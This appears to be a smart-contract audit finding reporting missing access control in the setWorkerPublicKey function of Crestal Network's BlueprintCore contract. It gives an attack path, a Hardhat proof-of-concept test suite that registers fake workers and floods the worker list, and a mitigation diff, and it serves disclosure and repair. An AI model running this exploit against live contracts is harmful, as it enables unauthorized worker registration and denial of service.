 Feisty Pickle Liger

High

# Unauthorized Users Can Register as Worker Nodes Due to Missing Access Controls in the `setWorkerPublicKey` Function

### Summary

Unauthorized users can register as worker nodes due to missing access controls in `setWorkerPublicKey` function in the `BlueprinCore.sol` contract.

### Root Cause

The vulnerability stems from a lack of access control in the `setWorkerPublicKey` function. This function allows any address to register as a worker node without verification or authorization checks. The implementation only checks if the address has already registered a public key, but does not validate whether the caller has permission to become a worker node.

[crestal-omni-contracts/src/BlueprintCore.sol:setWorkerPublicKey#L688-L695](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/BlueprintCore.sol#L688C1-L695C6)
```solidity
function setWorkerPublicKey(bytes calldata publicKey) public {
    if (workersPublicKey[msg.sender].length == 0) {
        workerAddressesMp[WORKER_ADDRESS_KEY].push(msg.sender);
    }

    workersPublicKey[msg.sender] = publicKey;
}
```

### Internal Pre-conditions

1. The `setWorkerPublicKey` function is publicly accessible
2. No additional access control modifiers (such as `onlyOwner` or `onlyAdmin`) are applied to the function

### External Pre-conditions

The attacker can set worker node by the `setWorkerPublickey` function.

### Attack Path

An attacker can exploit this vulnerability through the following steps:

1. Generate any arbitrary bytes to use as a "public key"
2. Call the `setWorkerPublicKey` function with the generated bytes
3. The function will execute without any authorization checks
4. The attacker's address is added to the worker address list (`workerAddressesMp[WORKER_ADDRESS_KEY]`)
5. The attacker's public key is stored in the `workersPublicKey` mapping

### Impact

The successful exploitation of this vulnerability could result in:

1. **Unauthorized Worker Registration**: Malicious actors can register as worker nodes without permission
2. **Denial of Service**: A large number of fake workers could bloat the system's worker list

### PoC

This PoC demonstrates a critical security vulnerability in the BlueprintCore contract that allows any user to register as a worker node without authorization. It consists of two test cases:
- Basic Vulnerability Demonstration: Shows how an unauthorized user can register as a worker
- Mass Registration Attack: Demonstrates how multiple attackers can flood the worker list

<details><summary>POC</summary>

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("BlueprintCore Worker Registration Vulnerability", function () {
  let blueprintCore;
  let owner;
  let attacker;

  beforeEach(async function () {
    // Get signers
    [owner, attacker] = await ethers.getSigners();
    
    // Deploy BlueprintCore contract
    const BlueprintCoreFactory = await ethers.getContractFactory("BlueprintCore");
    blueprintCore = await BlueprintCoreFactory.connect(owner).deploy();
    await blueprintCore.deployed();
    
    console.log("Contract deployed by:", owner.address);
    console.log("Attacker address:", attacker.address);
  });

  it("Allows any user to register as a worker node without authorization", async function () {
    // GIVEN: Check initial state - attacker should not be a worker
    const initialWorkers = await blueprintCore.getWorkerAddresses();
    console.log("Initial worker count:", initialWorkers.length);
    
    const isInitiallyWorker = initialWorkers.some(addr => 
      addr.toLowerCase() === attacker.address.toLowerCase()
    );
    expect(isInitiallyWorker).to.be.false;
    console.log("Attacker is initially a worker:", isInitiallyWorker);
    
    // WHEN: Attacker calls setWorkerPublicKey with arbitrary data
    console.log("\nExecuting attack...");
    const maliciousPublicKey = ethers.utils.toUtf8Bytes("MALICIOUS_WORKER_KEY");
    
    const tx = await blueprintCore.connect(attacker).setWorkerPublicKey(maliciousPublicKey);
    await tx.wait();
    console.log("Transaction hash:", tx.hash);
    
    // THEN: Verify attacker is now registered as a worker
    const updatedWorkers = await blueprintCore.getWorkerAddresses();
    console.log("\nUpdated worker count:", updatedWorkers.length);
    
    const isNowWorker = updatedWorkers.some(addr => 
      addr.toLowerCase() === attacker.address.toLowerCase()
    );
    expect(isNowWorker).to.be.true;
    console.log("Attacker is now a worker:", isNowWorker);
    
    // AND: Verify the attacker's public key was stored correctly
    const storedKey = await blueprintCore.workersPublicKey(attacker.address);
    const storedKeyString = ethers.utils.toUtf8String(storedKey);
    console.log("Stored public key:", storedKeyString);
    
    expect(storedKeyString).to.equal("MALICIOUS_WORKER_KEY");
    
    console.log("\nVULNERABILITY CONFIRMED: Unauthorized user successfully registered as worker");
    console.log("Security impact: Malicious actors can join the worker network without permission");
  });
  
  it("Demonstrates potential impact - multiple attackers can flood worker list", async function () {
    // Create multiple attacker accounts
    const attackerCount = 5;
    const attackers = [];
    
    for (let i = 0; i < attackerCount; i++) {
      const wallet = ethers.Wallet.createRandom().connect(ethers.provider);
      
      // Fund the wallet with ETH for gas
      await owner.sendTransaction({
        to: wallet.address,
        value: ethers.utils.parseEther("1.0")
      });
      
      attackers.push(wallet);
    }
    
    console.log(`Created ${attackerCount} attacker wallets`);
    
    // Get initial worker count
    const initialWorkers = await blueprintCore.getWorkerAddresses();
    console.log("Initial worker count:", initialWorkers.length);
    
    // All attackers register as workers
    console.log("\nExecuting mass registration attack...");
    
    for (let i = 0; i < attackerCount; i++) {
      const maliciousKey = ethers.utils.toUtf8Bytes(`ATTACKER_${i}_KEY`);
      await blueprintCore.connect(attackers[i]).setWorkerPublicKey(maliciousKey);
      console.log(`Attacker ${i} registered as worker`);
    }
    
    // Verify worker list has grown
    const updatedWorkers = await blueprintCore.getWorkerAddresses();
    console.log("\nUpdated worker count:", updatedWorkers.length);
    expect(updatedWorkers.length).to.equal(initialWorkers.length + attackerCount);
    
    console.log("\nVULNERABILITY IMPACT DEMONSTRATED: Multiple attackers can flood the worker list");
    console.log("This could lead to resource exhaustion or compromise the worker selection mechanism");
  });
});
```

</details>

### Mitigation

To address this vulnerability, it is recommended to implement proper access control for worker registration and add authorization checks.

```solidity
+    mapping(address => bool) public authorizedWorkers;

+    function authorizeWorker(address worker) public onlyOwner {
+   	authorizedWorkers[worker] = true;
+    	emit WorkerAuthorized(worker);
+	}

+    function isAuthorizedWorker(address worker) public view returns (bool) {
+    	return authorizedWorkers[worker];
+    }

function setWorkerPublicKey(bytes calldata publicKey) public {
+    require(isAuthorizedWorker(msg.sender), "Not authorized to register as worker");
    
    if (workersPublicKey[msg.sender].length == 0) {
        workerAddressesMp[WORKER_ADDRESS_KEY].push(msg.sender);
    }

    workersPublicKey[msg.sender] = publicKey;
    
    emit WorkerRegistered(msg.sender);
}
```